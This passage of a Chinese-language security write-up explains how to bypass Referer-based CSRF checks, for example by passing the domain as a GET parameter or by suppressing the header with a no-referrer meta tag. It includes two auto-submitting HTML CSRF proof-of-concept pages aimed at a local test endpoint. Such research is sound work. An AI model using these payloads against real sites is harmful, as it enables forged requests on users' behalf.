 ![rand](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x03.png)

- `？号` 

将域名作为GET请求参数进行绕过：

![subdomain](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x04.png)

### 打破常规

#### 无Referer

之前在做测试的时候，将Referer头删除也可以绕过，但是在真正的利用中能不能去实现呢？是可以的。

在HTML标签中有这样一个标签`<meta>`，而这个标签是表示无Referer，就是如下的代码：

```html
<meta name="referrer" content="never">
```

我原来的PoC为：

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/test.php">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

修改之后的PoC为：

```html
<html>
  <meta name="referrer" content="never">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/test.php">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![null referer](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-08-01/0x05.png)

#### 与其他资源组合
